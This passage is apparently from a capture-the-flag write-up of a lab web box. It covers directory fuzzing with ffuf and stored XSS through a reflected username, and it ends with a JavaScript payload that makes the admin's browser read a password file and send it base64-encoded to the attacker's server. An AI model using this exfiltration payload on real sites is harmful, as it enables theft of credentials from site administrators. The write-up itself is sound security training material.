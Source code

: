 Inspected the file:

```shell
cat update.txt
```

![sub](assets/images/posts/2025-09-19-WhyHackMe/Pasted image 20250915085141.png)

The file hinted at an endpoint that might expose credentials, but attempting to access it returned **403 Forbidden**, so I turned attention to the web app.

![sub](assets/images/posts/2025-09-19-WhyHackMe/Pasted image 20250915085648.png)

Did a directory fuzzing scan to look for hidden pages / endpoints:

```shell
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -u "http://10.10.59.88/FUZZ.php"
```

![sub](assets/images/posts/2025-09-19-WhyHackMe/Pasted image 20250915094649.png)

I discovered a blog application that allowed **register**, **login**, and **commenting** on admin posts. The admin had left a comment that indicated they monitor comments (useful signal for XSS).

![sub](assets/images/posts/2025-09-19-WhyHackMe/Pasted image 20250915095030.png)

This observation increased the likelihood of an XSS-based admin interaction.

![sub](assets/images/posts/2025-09-19-WhyHackMe/Pasted image 20250915095235.png)

---

## Web Exploitation (XSS → Data Exfil)

Initial XSS testing didn’t trigger because user-provided input was being HTML-encoded — comments were safe. I inspected the source and found it was encoding comments, preventing direct XSS execution:

![sub](assets/images/posts/2025-09-19-WhyHackMe/Pasted image 20250915095416.png)

However, the username was also reflected in pages. So I registered a user with a `<script>alert(1)</script>` as the **username** and then posted a comment — this successfully triggered the payload when the admin viewed the page.

![sub](assets/images/posts/2025-09-19-WhyHackMe/Pasted image 20250915095914.png)

The goal was to read `/dir/pass.txt` which was accessible only when requested by the admin (so we needed a script that would make the admin's browser fetch and forward the file contents). Because the admin cookie was `HttpOnly`, stealing their cookie wouldn’t work. Instead I used a small script that fetched `/dir/pass.txt` and sent the response to my server base64-encoded.

Payload `new.js`:

```javascript
var target_url = "http://127.0.0.1/dir/pass.txt";
var my_server = "http://10.23.104.52:5000/data";
var xhr  = new XMLHttpRequest();
xhr.onreadystatechange = function() {
    if (xhr.readyState == XMLHttpRequest.DONE) {
        fetch(my_server + "?" + encodeURI(btoa(xhr.responseText)))
    }
}
xhr.open('GET', target_url, true);
xhr.send(null);
```
